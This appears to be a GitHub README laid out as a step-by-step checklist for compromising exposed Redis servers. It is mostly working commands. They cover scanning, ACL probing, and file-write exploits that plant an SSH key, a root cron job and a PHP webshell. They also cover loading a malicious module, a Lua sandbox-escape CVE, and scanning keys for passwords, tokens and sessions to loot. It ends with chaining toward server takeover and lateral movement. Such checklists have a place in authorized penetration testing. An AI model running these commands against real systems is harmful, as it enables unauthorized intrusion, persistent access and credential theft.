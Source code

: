 # 🧨 Redis-warROOOOOOM
 
**No auth. No problem.**
This is my war log for Redis exploitation.

<div align="center">
  <img src="https://media0.giphy.com/media/v1.Y2lkPTc5MGI3NjExbWU4NGRyMTN6bmhvYWhvam85aXNiZnhjaWU5a3pvNm83dmEzODBpbSZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/3o6Mbi9e1UmeCCyO0E/giphy.gif" width="600"/>
</div>  


---

## 1. Discovery & Access
- [ ] Scan ports 6379/26379  
  ```bash
  nmap -p 6379,26379 <target>
  ```
- [ ] Banner grab  
  ```bash
  nc <target> 6379
  ```
  → send `PING` → reply `+PONG`?
- [ ] Check basic info  
  ```bash
  redis-cli -h <target> INFO server
  ```

---

## 2. Authentication & ACL
- [ ] Test known credentials  
  ```bash
  redis-cli -h <target> -a <PASS>
  ```
- [ ] Check user and permissions  
  ```bash
  redis-cli ACL WHOAMI
  redis-cli ACL LIST
  redis-cli ACL CAT @all
  ```
- [ ] Verify if current user has `+@write` or `+@dangerous`

---

## 3. Basic Write Test
- [ ] Test write operation  
  ```bash
  redis-cli SET testkey "owned"
  redis-cli GET testkey
  ```

---

## 4. Recon Information
- [ ] Full info  
  ```bash
  redis-cli INFO all
  ```
- [ ] Directory and filename  
  ```bash
  redis-cli CONFIG GET dir
  redis-cli CONFIG GET dbfilename
  ```
- [ ] Modules and available commands  
  ```bash
  redis-cli MODULE LIST
  redis-cli COMMAND
  ```

---

## 5. File Write Exploits

### 5.1 SSH authorized_keys
```bash
redis-cli SET crackit "ssh-rsa AAAAB3N..."
redis-cli CONFIG SET dir /root/.ssh/
redis-cli CONFIG SET dbfilename "authorized_keys"
redis-cli SAVE
```

### 5.2 Cronjob
```bash
redis-cli SET job "* * * * * root /bin/bash -c 'id > /tmp/owned'"
redis-cli CONFIG SET dir /etc/cron.d/
redis-cli CONFIG SET dbfilename "redis"
redis-cli SAVE
```

### 5.3 Webshell
```bash
redis-cli SET shell "<?php system($_GET['c']); ?>"
redis-cli CONFIG SET dir /var/www/html
redis-cli CONFIG SET dbfilename "x.php"
redis-cli SAVE
```

---

## 6. Replication / Module
- [ ] If `REPLICAOF` allowed → start rogue server and force replication
- [ ] Load malicious `.so` payload  
  ```bash
  redis-cli MODULE LOAD /tmp/evil.so
  ```
- [ ] Use exposed commands (e.g., `system.exec`)

---

## 7. Lua / CVE
- [ ] If `EVAL` allowed → test Lua script execution
- [ ] On Debian/Ubuntu → check **CVE-2022-0543** (RCE via Lua sandbox escape)

---

## 8. Cluster / Sentinel
- [ ] If port 26379 open  
  ```bash
  redis-cli SENTINEL masters
  redis-cli SENTINEL get-master-addr-by-name <name>
  ```
- [ ] If cluster active  
  ```bash
  redis-cli CLUSTER NODES
  redis-cli CLUSTER INFO
  ```

---

## 9. Data Looting
- [ ] Search sensitive keys with `SCAN` (never use `KEYS *`)  
  ```bash
  redis-cli SCAN 0 MATCH "*pass*" COUNT 100
  redis-cli SCAN 0 MATCH "*user*" COUNT 100
  redis-cli SCAN 0 MATCH "*token*" COUNT 100
  redis-cli SCAN 0 MATCH "*session*" COUNT 100
  ```
- [ ] Dump values  
  ```bash
  redis-cli GET <key>
  redis-cli HGETALL <key>
  redis-cli LRANGE <key> 0 -1
  redis-cli SMEMBERS <key>
  redis-cli ZRANGE <key> 0 -1 WITHSCORES
  ```

---

## 10. Reporting & Chaining
- [ ] Is Redis exposed? (public vs internal)
- [ ] Authentication required? ACL config secure?
- [ ] `@dangerous` commands accessible?
- [ ] File-write successful?
- [ ] Code execution achieved?
- [ ] Sensitive data exfiltrated?
- [ ] Possible attack chains → Redis → credentials → server takeover → lateral movement
